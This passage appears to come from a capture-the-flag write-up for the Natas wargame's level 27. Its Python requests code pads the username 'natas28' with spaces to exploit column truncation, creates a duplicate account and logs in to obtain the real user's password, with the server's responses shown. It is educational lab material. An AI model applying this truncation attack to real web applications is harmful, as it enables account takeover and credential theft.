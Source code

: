 ```
response = session.post(url, data={
                        "username": "natas28" + " " * 64 + "2", "password": "password"}, auth=(username, password))
content = response.text

Output:
User natas28                                                                2 was created!
```

It seems like we can create another `natas28` with the characters overflowed. Let's try creating another `natas28` to confirm that our assumption is correct.

```
response = session.post(url, data={
                        "username": "natas28" + " " * 64 + "2", "password": "password2"}, auth=(username, password))
content = response.text
print(content)

Output:
User natas28                                                                2 was created!
```

Awesome! We created another user `natas28` with the exact same username that we used previously. Now, we should be able to grab the password for the actual `natas28` from the database by supplying the password we used to create a dummy `natas28`.

```
response = session.post(url, data={
                        "username": "natas28", "password": "password"}, auth=(username, password))
content = response.text
print(content)
```
